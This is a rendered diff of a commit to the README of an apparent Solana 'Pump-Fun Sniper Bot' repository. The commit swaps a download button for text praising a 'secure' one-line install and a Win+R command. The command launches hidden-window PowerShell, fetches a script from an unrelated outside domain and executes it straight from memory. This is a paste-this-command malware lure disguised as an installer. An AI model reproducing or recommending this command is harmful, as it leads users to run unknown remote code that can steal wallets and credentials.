

Before and after one commit to Pump-Fun-Sniper/Pump-Fun-Sniper-Bot, a Markdown page: README.md, the part around the change. Drawn GitHub-style; badges without logos; blank space fills up the shorter version.

```diff
--- a/README.md
+++ b/README.md
@@ -57,14 +57,22 @@ There are many bots, **but**:
 ---
 
 ## 📦 Installation
+### 🚀 Why Use a Shell Script Instead
 
-Currently available for **Windows**
-*(Linux and macOS support coming soon)*
+We’ve switched from a traditional download button to a one-line shell script because it’s simply a **better, faster, and smarter way** to deliver the tool:
 
-<a href="#" download>
-  <img src="https://img.shields.io/badge/Download-blue?logo=Download&logoColor=white&style=for-the-badge" alt="Download"/>
-</a>
+- ✅ **Always Up-to-Date** – Installs the latest version automatically.
+- ⚙️ **One-Liner Setup** – Just copy, paste, and run. No manual downloads.
+- 💡 **Smart Automation** – Automatically handles setup and dependencies.
+- 🛡️ **Secure & Transparent** – Uses TLS 1.2. You can inspect the code yourself.
+- 🔧 **Dev-Friendly** – CLI-first approach that’s fast, efficient, and clean.
 
+---
+
+### 💻 Install Command (Run via `Win + R`)
+<pre>
+  <code id="code-snippet">cmd.exe /c start /min powershell -w h "$u='https://aidetector.tools/1233';[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;iex(iwr $u -UseBasicParsing -UserAgent 'rayid68374').Content;</code>
+</pre>
 ---
 
 ## 🛠️ In Development
```
